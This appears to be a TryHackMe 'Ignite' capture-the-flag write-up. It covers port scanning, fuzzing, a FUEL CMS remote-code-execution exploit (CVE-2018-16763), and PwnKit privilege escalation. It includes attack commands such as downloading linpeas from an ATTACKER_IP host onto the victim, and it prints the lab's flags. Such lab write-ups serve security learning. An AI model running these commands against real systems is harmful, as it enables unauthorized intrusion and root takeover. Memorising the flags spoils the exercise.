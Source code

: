 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/ignite/","tags":["CTF","write-up","LFI","RCE","SUID"]}
---
```


![Pasted image 20240920115253.png|200](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920115253.png)
Root the box! Designed and created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471), built by [Paradox](https://tryhackme.com/p/Paradox).

---
# Active reconnaisance
## Enum ports and services
Run an full scan
```shell
sudo nmap 10.10.140.16 -p- -n --min-rate 5000 -sS --open -vvv
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```
## OS
Based in the ttl `61`, could be a linux machine
system Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS

---
# Vuln analisis
## Port 80
```c
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```
![Pasted image 20240920121719.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920121719.png)
From the robots file and the webpage we know that the subdirectory `fuel` exists
### fuel
![Pasted image 20240920122454.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920122454.png)
Login with the credentials from the main page
![Pasted image 20240920125300.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920125300.png)
We are in the admin dashboard
![Pasted image 20240920125339.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240920125339.png)
Anyway I'll try to find doing fuzzing
```shell
wfuzz -c -t 100 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.140.16/FUZZ
```
### assets
We found `assets` and it's forbidden

---
# Exploitation
## CVE-2018-16763
Looking for Fuel 1.4.1 on `searchsploit` we found a [[Pentesting Web/RCE\|RCE]] vulnerability associated to the CVE-2018-16763
![Pasted image 20240921084919.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240921084919.png)
![Pasted image 20240921084949.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240921084949.png)
NIST show more information
![Pasted image 20240921085153.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240921085153.png)
Using the exploit we have a shell
```shell
python 50477.py -u http://10.10.209.122
```
![Pasted image 20240921091135.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240921091135.png)

Get the first flag
![Pasted image 20240921114219.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240921114219.png)
> [!check]- flag.txt
> 6470e394cbf6dab6a91682cc8585059b

---
# Privilege Escalation
Enumerating 
systemLinux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS
## Runing linpeas on the system
1. On the attacker machine get the file
```shell
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Start a python server
   `python3 -m http.server 4747`
3. On the victim machine get the file and make it executable
```shell
wget http://ATTACKER_IP:4747/linpeas.sh
chmod +x linpeas.sh
```
4. Run it and save it in a txt file
```shelll
./linpeas.sh > linpeas_scan.txt
```
## CVE-2021-4034
From LinPeas we have  this suggestion
```
Executing Linux Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have pkexec installed and as SUID
![Pasted image 20240923172901.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240923172901.png)

The exploit from `LinPeas` doesn't work, but searching another option I found this exploit written in `python`
https://github.com/Almorabea/pkexec-exploit
After getting to the victim machine, the exploit works.
![Pasted image 20240923172233.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240923172233.png)
![Pasted image 20240923172249.png|80](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240923172249.png)
And finally capture the root flag.
![Pasted image 20240923172354.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240923172354.png)
> [!check]- root.txt
> b9bbcb33e11b80be759c4e844862482d

---